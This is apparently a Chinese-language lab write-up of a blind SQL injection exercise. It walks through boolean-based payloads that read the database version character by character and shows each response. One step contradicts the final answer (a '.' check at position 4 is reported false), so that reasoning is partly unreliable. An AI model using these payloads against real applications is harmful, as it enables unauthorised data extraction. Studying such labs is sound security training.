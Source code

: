 # SQL Injection (Blind)

> Objective:
Find the version of the SQL database software through a blind SQL attack.

這次是 POST，但如果直接照搬之前使用的語法會無法正常判斷

```sql
1 AND (SELECT ascii(SUBSTRING((SELECT @@version),1,1)) = 53)
# User ID exists in the database.
```

### Boolean-based blind injection

參考之前在 medium 的語法

```sql
1 AND (SELECT version() <> 0);

# User ID exists in the database.
```

```sql
1 AND (SELECT ascii(SUBSTRING((SELECT @@version),1,1)) = 53)
```

如果我們故意寫錯這個判斷，它應該要回傳 false (`User ID is MISSING in the database.`)，結果卻是 true

```sql
1 AND (SELECT ascii(SUBSTRING((SELECT @@version),1,1)) = 52)
# User ID exists in the database.
```

因此需要修改，為了避免它可能被截斷或者被結尾部份的語法影響到，試著在前後加上 `'` 和 `#`

判斷版本的第 1 個字元是否為 5

```sql
1' AND (SELECT ascii(SUBSTRING((SELECT @@version),1,1)) = 53)#

# User ID exists in the database. 
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b9ecbe88-d06f-44b0-9b09-811f71e6824d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T110641Z&X-Amz-Expires=86400&X-Amz-Signature=7cd726f046540698600729a212c8cc117962ea049d9f2d1c0fc1fda312b8313d&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

反過來驗證一下，這次應該要回傳 false

```sql
1' AND (SELECT ascii(SUBSTRING((SELECT @@version),1,1)) = 52)#

# User ID is MISSING from the database.
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ee2ab94c-c323-493a-a175-a147c9162c9c/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T110703Z&X-Amz-Expires=86400&X-Amz-Signature=4f8a58ca29f6087f2bb7496779ebe0c546885260b69c37190843d26f2a548453&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)
看起來這樣就對了，接著繼續往下測試，模擬猜出版號的過程

判斷版本的第 2 個字元是否為 .

```sql
1' AND (SELECT ascii(SUBSTRING((SELECT @@version),2,1)) = 46)#

# User ID exists in the database.
```

判斷版本的第 3 個字元是否為 7

```sql
1' AND (SELECT ascii(SUBSTRING((SELECT @@version),3,1)) = 55)#

# User ID exists in the database.
```

判斷版本的第 4 個字元是否為 4

```sql
1' AND (SELECT ascii(SUBSTRING((SELECT @@version),4,1)) = 52)#

# User ID is MISSING from the database.
```

判斷版本的第 4 個字元是否為 .

```sql
1' AND (SELECT ascii(SUBSTRING((SELECT @@version),4,1)) = 46)#

# User ID is MISSING from the database.
```

判斷版本的第 5 個字元是否為 3

```sql
1' AND (SELECT ascii(SUBSTRING((SELECT @@version),5,1)) = 51)#

# User ID exists in the database.
```

判斷版本的第 6 個字元是否為 4

```sql
1' AND (SELECT ascii(SUBSTRING((SELECT @@version),6,1)) = 52)#

# User ID exists in the database.
```

判斷版本的第 7 個字元是否為 .

```sql
1' AND (SELECT ascii(SUBSTRING((SELECT @@version),7,1)) = 46)#

# User ID is MISSING from the database.
```

### Done

因此可以推斷版本為

```sql
5.7.34
```

當然實際上還是要參考 release 上的版號清單去猜
